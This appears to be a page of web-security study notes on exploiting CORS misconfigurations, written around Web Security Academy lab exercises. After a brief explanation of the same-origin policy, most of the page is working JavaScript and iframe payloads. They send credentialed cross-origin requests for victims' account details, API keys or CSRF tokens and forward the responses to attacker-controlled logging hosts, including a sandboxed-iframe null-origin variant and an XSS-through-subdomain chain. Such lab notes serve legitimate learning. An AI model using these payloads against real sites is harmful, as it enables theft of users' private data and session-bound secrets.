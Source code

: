 ```yaml
---
icon: share-nodes
---
```


# CORS

**Same-origin policy**

The same-origin policy is a restrictive cross-origin specification that limits the ability for a website to interact with resources outside of the source domain. The same-origin policy was defined many years ago in response to potentially malicious cross-domain interactions, such as one website stealing private data from another. It generally allows a domain to issue requests to other domains, but not to access the responses.

{% code overflow="wrap" %}
```javascript
<script> 
	var req = new XMLHttpRequest(); 
	req.onload = reqListener; 
	req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
	req.withCredentials = true; 
	req.send(); 

	function reqListener() { 
		location='/log?key='+this.responseText; 
	}; 
</script>
```
{% endcode %}

`req.withCredentials = true;`: This ensures that any credentials (cookies or authentication tokens) tied to the current domain are sent with the request. This is crucial for CSRF attacks, where the attacker wants to trigger actions using the victim’s session cookies.



If the response contains any sensitive information such as an API key or CSRF token, you could retrieve this by placing the following script on your website:

{% code overflow="wrap" %}
```javascript
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true); req.withCredentials = true; 
req.send(); 

function reqListener() { 
	location='//malicious-website.com/log?key='+this.responseText; 
};
```
{% endcode %}



{% code overflow="wrap" %}
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script> var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true; req.send(); function reqListener() { location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText); }; </script>"></iframe>
```
{% endcode %}

Exploit cors through vulnerable subdomain with xss:

`https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>`&#x20;

{% code overflow="wrap" %}
```javascript
<script>
	document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```
{% endcode %}
